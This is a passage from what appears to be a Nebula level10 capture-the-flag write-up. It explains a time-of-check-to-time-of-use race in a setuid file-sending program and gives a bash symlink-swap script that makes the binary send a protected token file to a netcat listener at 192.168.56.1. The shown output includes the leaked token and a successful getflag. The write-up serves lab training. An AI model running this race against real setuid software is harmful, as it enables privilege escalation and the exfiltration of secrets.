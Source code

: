       printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
{{< /codecaption >}}

This code is vulnerable to "time of check to time of use" race condition. It has its own wiki [article][race]. 
The logic of the (SETUID) code here and the one in the article is basically the same - check if the current user has access to a file and if so - process the file.

To exploit this logic we need to first pass in the file that we have access to (to pass the check) and later switch it out (symlink) to another file (which we WANT to access).
The timing is crucial here and the race needs to be automated. 
I wrote the following script:

{{< codecaption lang="sh" title="Race Condition" >}}
#!/bin/bash

rm -rf /tmp/access
touch /tmp/access
/home/flag10/flag10 /tmp/access 192.168.56.1 &
ln -sf /home/flag10/token /tmp/access
{{< /codecaption >}}

After a few attempts we receive the token to our netcat listener:

{{< codecaption lang="sh" title="Token" >}}
root@kali:~# nc -lkp 18211
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
root@kali:~# 
{{< /codecaption >}}

Back inside the Nebula VM:

{{< codecaption lang="sh" title="Flag10" >}}
level10@nebula:/home/flag10$ su flag10 -
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
sh-4.2$ 
{{< /codecaption >}}


[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)